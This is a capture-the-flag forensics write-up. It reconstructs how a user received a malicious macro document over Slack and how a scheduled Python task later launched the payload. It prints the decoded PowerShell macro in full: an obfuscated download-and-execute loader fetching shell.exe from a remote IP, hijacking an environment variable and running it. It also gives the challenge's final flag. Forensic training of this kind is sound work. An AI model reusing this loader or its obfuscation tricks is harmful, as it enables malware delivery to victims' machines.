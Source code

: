 # MAC

![](https://i.imgur.com/tS5rS5n.jpg)

## TL;DR
- Reading slack conversation

- dump the registries and get the username and file name

- analyse the macro to get the AttackerIP

- checking the task scheduler to find out that it's running chromebot.py which takes chrome env variable which has been changed with the macro.

## Solution

Starting by exploring the files in order to see how he communicated with the 'group of security group', in **Recent Documents in Autopsy** we see that there is slack there, so dumping slack messages.

PATH: **%AppData%\Roaming\Slack\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00\5**

example of Slack Parser: https://github.com/0xMohammed/Slack-Parser [ Again credit to [0xMohamedHassan](https://twitter.com/0xMohamedHassan)
]

![](https://i.imgur.com/In9OMRF.jpg)


so there is 3 users [cakix36502,Semah BenAli,x_xWhiteuxx_x] , one admin but since SemahBA created the group so he is **cakix36502**, the FileSenderUsername must be of the other two. 

**FileSenderUsername: Semah BenAli or x_xWhiteuxx_x**

Going to **%AppData%\Roaming\Slack\Storage\root-state.json** 

we get : **downloadPath":"C:\\Users\\FwordCTF\\Downloads\\securityupdate.doc.zip** -> ReceivedFileOriginalPath: **Downloads**

Now Checking the suspicious file it was password protected, going back to the messages from Slack, we find the password which is **fwordteam**

there is doc file, while opening asks for Enable editing, so macro one?

### Macro Analysis

I opened in a VM and started [CMD WATCHER](https://www.kahusecurity.com/posts/cmd_watcher_and_maldocs.html) and Enabled the editing and received this: 

![](https://i.imgur.com/JWeM0xM.jpg)

decoding it and we get:

```
$Managerrmo='Venezuelahwf';
$capacitoripk = '657';
$depositkjo='Internaljiw';
$Reverseengineeredifq=$env:userprofile+'\'+$capacitoripk+'.exe';
$Ovalnfc='Handcrafted_Plastic_Pantsrod';
$applicationpmi=&('ne'+'w-ob'+'ject') NEt.WEBCLIenT;
$Practical_Wooden_Gloveszih='httasdp://asd192asd.asd168asd.1asd.9asd/shasdellasd.easdxe'."Replace"("asd","");
$violetcuz='hackingtho';
foreach($Arizonavsf in $Practical_Wooden_Gloveszih){try{$applicationpmi."DO`Wnl`oadfIle"($Arizonavsf, $Reverseengineeredifq);
$Yemennoo='Borderswbi';
[System.Environment]::SetEnvironmentVariable('chrome.exe',$env:userprofile+'\'+$capacitoripk+'.exe')If ((&('Get-'+'It'+'em') $Reverseengineeredifq)."LEn`GTH" -ge 21057) {[Diagnostics.Process]::"S`TaRT"($Reverseengineeredifq);
$Bolivar_Fuertenor='SCSImlh';
break;
$Regionalbpb='Auto_Loan_Accounthzi'}}catch{}}$Liaisonqvc='bestofbreedqit
```

Looking at the code: 

- ``httasdp://asd192asdasd168asd1asd9asd/shasdellasdeasdxe'"Replace"("asd","");`` which is: ``http://192.168.1.9/shell.exe`` so the IP is **192.168.1.9** and The file will be downloaded under %userprofile%\657.exe

- **IPSourceOfTheDownloadedFile: 192.168.1.9**

- **NewMaliciousFile is 657.exe**

- Also the script is setting env variable chrome.exe value to 657.exe

Now The Last Part is left **WhatTriggeredTheMaliciousFile**

Okay going back to **Recent Documents** there is **Checking The Binary.lnk** which is under C:\Windows\System32\Tasks\Checking the Binary

Okay so this is from Task Scheduler.

Checking it -> C:\Windows\System32\Tasks\Checking the Binary

![](https://i.imgur.com/NgTmSj2.jpg)

there is:

```
<Exec>
      <Command>C:\Users\FwordCTF\AppData\Local\Microsoft\WindowsApps\python.exe</Command>
      <Arguments>chromebot.py</Arguments>
      <WorkingDirectory>C:\Program Files\Google\Chrome\Application\</WorkingDirectory>
</Exec>
 ```

Executing python script chromebot.py which is under **C:\Program Files\Google\Chrome\Application\***

Script content:

```python
import os
import pyautogui as pe
import time
chrome_path = os.getenv("chrome.exe")
os.startfile(chrome_path)
time.sleep(1)
# exeucting the binary
for i in range(2):
	pe.click(707,275)
time.sleep(5)
pe.hotkey('alt','f4')
print ("Okay so it's working fine")
```

So it's getting the value of **chrome.exe** which has been set before to 657.exe, going to the path and made it a startfile path, and double clicking the binary? 

So that's **WhatTriggeredTheNewMaliciousFile**

Flag Format : FwordCTF{FileSenderUsername-IPSourceOfTheDownloadedFile-ReceivedFileOriginalPath-NewMaliciousFile-WhatTriggeredTheNewMaliciousFile}

Putting all the pieces together:

Flag is: **FwordCTF{x_xWhiteuxx_x-192.168.1.9-Downloads-657.exe-chromebot.py}** 
